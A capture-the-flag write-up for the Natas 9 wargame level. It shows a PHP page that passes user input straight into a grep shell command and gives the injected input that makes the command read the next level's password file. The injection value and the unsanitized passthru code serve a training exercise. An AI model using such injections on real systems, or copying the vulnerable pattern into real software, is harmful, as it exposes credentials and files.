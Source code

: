 # Natas 9 
The natas9 level starts with a prompt saying *Find words containing:* on examing the source code:
```
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

we see that its basically doing a grep command in bash to get all the words from a file called *dictionary.txt*.
All we have to do is make it print contents of */etc/natas_webpass/natas10* to get to next level. we can use some regular expressions to solve it. I used the following command to solve it:
```
"^" /etc/natas_webpass/natas10 #
```

Here we are injecting user controlled variable and essentially making the resulting command to be:
```
grep -i "^" /etc/natas_webpass/natas10 #dictionary.txt
```
1. \# -> this in bash in is comment
1. ^ -> this is regex and meaning any word or string that starts, essentially meaning all the words or strings.

I have written a python script to do the essentially the same.
